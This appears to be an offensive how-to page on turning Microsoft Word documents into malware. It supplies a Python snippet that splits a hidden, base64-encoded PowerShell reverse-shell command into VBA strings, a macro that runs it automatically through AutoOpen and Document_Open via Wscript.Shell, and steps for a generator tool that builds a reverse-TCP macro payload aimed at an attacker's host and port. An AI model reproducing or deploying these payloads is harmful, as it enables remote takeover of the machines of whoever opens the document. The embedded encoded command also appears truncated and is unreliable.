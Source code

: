 Microsoft Office applications like Word and Excel allow users to embed macros, a series of commands and instructions that are grouped together to accomplish a task programmatically. Organizations often use macros to manage dynamic content and link documents with external content. More interestingly, macros can be written from scratch in Visual Basic for Applications (VBA), which is a fully functional scripting language with full access to ActiveX objects and the Windows Script Host, similar to JavaScript in HTML Applications.
```
Create the .doc file
Use the base64 powershell code from revshells.com
```
Used this code to inline macro(Paste the code from revshells in str variable) :
```
str = "powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA"

n = 50

for i in range(0, len(str), n):
    print "Str = Str + " + '"' + str[i:i+n] + '"'
```
```
Sub AutoOpen()

  MyMacro

End Sub

Sub Document_Open()

  MyMacro

End Sub

Sub MyMacro()

    Dim Str As String

   <b>Paste the script output here!<b>

    CreateObject("Wscript.Shell").Run Str

End Sub
```
## Exploiting Microsoft Windows using MS Word Macro [Automation Script] 🪿
If the thought of manually crafting a macro exploit seems feels like a headache then This tool simplifies the process, which automatically generate MW word macros which contain's your RCE payload code.

***Minitrue***
```
git clone https://github.com/X0RW3LL/Minitrue.git
```
```
cd /opt/WindowsMacros/Minitrue
./minitrue
select a payload: windows/x64/shell_reverse_tcp
select the payload type: VBA Macro
LHOST=$yourIP
LPORT=$yourPort
Payload encoder: None
Select or enter file name (without extensions): hacker
```